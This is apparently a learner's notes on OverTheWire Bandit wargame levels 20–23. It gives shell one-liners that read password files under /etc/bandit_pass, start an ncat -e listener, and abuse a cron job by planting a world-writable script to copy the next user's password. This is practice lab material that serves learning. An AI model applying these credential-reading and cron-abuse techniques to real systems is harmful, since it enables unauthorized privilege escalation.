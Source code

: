 = 2025年04月01日

== overthewire

=== level 20

you need to create a tcp server connection that send a password.
that password must be equal to bandit20's password

oh i accidentally found someone's solution on the server: `ncat -e /bin/echo <bandit20 password> -k -l 10235`

he should've used `/bin/cat /etc/bandit_pass/bandit20`.

but i like this solution more since it doesn't depend on nmap:

[, bash]
----
ssh -t bandit20@bandit.labs.overthewire.org -p 2220 "nc -lp 6969 < /etc/bandit_pass/bandit20 & ./suconnect 6969 | grep -E '^[A-Za-z0-9]{32}\$'"-
---

I had to use `^` and `$` since i only want the line with the password

=== level 21

i am using fish shell, i like to do it like this.

i have my passwords saved on a file as well, but i won't be making it public.

the goal is to read the script of a cronjob and find the flag in a temp directory.

the path of the flag is hardcoded.

[, fish]
----
export LEVEL=21; ssh -t bandit$LEVEL@bandit.labs.overthewire.org -p 2220 "awk '/* bandit22/ {print \$7}' /etc/cron.d/cronjob_bandit22 | xargs awk '/cat/ {print \$4}' | xargs cat | grep -Eo '[A-Za-z0-9]{32}'"
----

=== level 22

this level is the same as level 22 except it's using weak form of obscurity by using md5 hash on a sentence.

[, fish]
----
export LEVEL=22; cat level(math $LEVEL - 1); ssh -t bandit$LEVEL@bandit.labs.overthewire.org -p 2220 "cat /tmp/\$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)"
----

=== level 23

i stole someone's terminal commands lmao

[, bash]
----
stty raw -ctlecho -echo; cd /home/bandit23 >/dev/null 2>&1; if [ $(date +%S) -lt 3 ]; then sleep 2; fi; s=$(mktemp --tmpdir=/var/spool/bandit24/foo); t=$(mktemp); b='!'; chmod 777 $t; echo -e "#$b/bin/sh\ncat /etc/bandit_pass/bandit24 > $t" > $s; chmod 777 $s; sleep 60; cat $t; rm -f $t
----

just to make my automation script work.

although using netcat already works as is, but with python's paramiko, it's 50/50

here's the modified stolen commands:

[, fish]
----
export LEVEL=23; cat level(math $LEVEL - 1); ssh -t bandit$LEVEL@bandit.labs.overthewire.org -p 2220 's=$(mktemp --tmpdir=/var/spool/bandit24/foo); t=$(mktemp); chmod 777 $t; echo -e "cat /etc/bandit_pass/bandit24 > $t" > $s; chmod 777 $s; while [[ ! -s "$t" ]]; do sleep 1; done; cat $t | grep -Eo \'[A-Za-z0-9]{32}\''
----

`mktemp --tmpdir` is needed to set the proper permissions otherwise using `chmod` will just cause an error.

i used a while loop so that there won't be a reason to wait 60s
